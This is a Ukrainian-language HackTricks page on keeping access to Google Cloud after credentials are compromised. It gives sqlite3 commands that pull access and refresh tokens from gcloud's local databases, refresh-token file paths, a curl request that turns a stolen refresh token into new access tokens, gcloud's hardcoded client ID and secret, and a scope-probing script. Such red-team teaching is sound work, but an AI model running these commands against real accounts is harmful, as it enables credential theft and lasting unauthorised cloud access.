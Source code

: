 # GCP - Non-svc Persistance

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

Це корисні техніки, коли ви якимось чином скомпрометували деякі GCP облікові дані або машину, що працює в середовищі GCP.

## Token Hijacking

### Authenticated User Tokens

Щоб отримати **поточний токен** користувача, ви можете виконати:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Перевірте на цій сторінці, як **безпосередньо використовувати цей токен за допомогою gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Щоб отримати деталі для **генерації нового access token**, виконайте:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Також можна знайти refresh tokens у **`$HOME/.config/gcloud/application_default_credentials.json`** та у **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Щоб отримати новий оновлений access token за допомогою **refresh token**, client ID та client secret, виконайте:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Термін дії refresh tokens можна керувати в **Admin** > **Security** > **Google Cloud session control**, і за замовчуванням він встановлений на 16 годин, хоча його можна налаштувати так, щоб він ніколи не закінчувався:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

Процес аутентифікації при використанні чогось на кшталт `gcloud auth login` відкриє запит у браузері, і після прийняття всіх scopes браузер надішле запит, подібний до цього, на http порт, відкритий інструментом:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Then, gcloud буде використовувати стан і код з деяким жорстко закодованим `client_id` (`32555940559.apps.googleusercontent.com`) і **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`), щоб отримати **остаточні дані токена оновлення**.

{% hint style="danger" %}
Зверніть увагу, що зв'язок з localhost відбувається через HTTP, тому можливо перехопити дані для отримання токена оновлення, однак ці дані дійсні лише один раз, тому це буде марно, легше просто прочитати токен оновлення з файлу.
{% endhint %}

### OAuth Scopes

Ви можете знайти всі Google scopes на [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) або отримати їх, виконавши:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Можна побачити, які області застосування, що **`gcloud`** використовує для автентифікації, може підтримувати за допомогою цього скрипта:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Після виконання було перевірено, що цей додаток підтримує ці області:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
Цікаво бачити, як цей додаток підтримує **`drive`** scope, що може дозволити користувачу підвищити привілеї з GCP до Workspace, якщо зловмисник зможе змусити користувача згенерувати токен з цим scope.

**Перевірте, як** [**зловживати цим тут**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Service Accounts

Так само, як і з автентифікованими користувачами, якщо вам вдасться **скомпрометувати файл приватного ключа** сервісного облікового запису, ви зможете **отримати доступ до нього зазвичай стільки, скільки захочете**.\
Однак, якщо ви вкрадете **OAuth токен** сервісного облікового запису, це може бути ще цікавіше, тому що, навіть якщо за замовчуванням ці токени корисні лише протягом години, якщо **жертва видалить приватний api ключ, OAuth токен все одно буде дійсним до його закінчення терміну дії**.

### Metadata

Очевидно, поки ви знаходитесь всередині машини, що працює в середовищі GCP, ви зможете **отримати доступ до сервісного облікового запису, прикріпленого до цієї машини, звернувшись до метаданих** (зверніть увагу, що OAuth токени, до яких ви можете отримати доступ у цій точці, зазвичай обмежені scope).

### Remediations

Деякі заходи щодо усунення цих технік пояснені в [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## References

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами у **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github репозиторіїв.

</details>
{% endhint %}
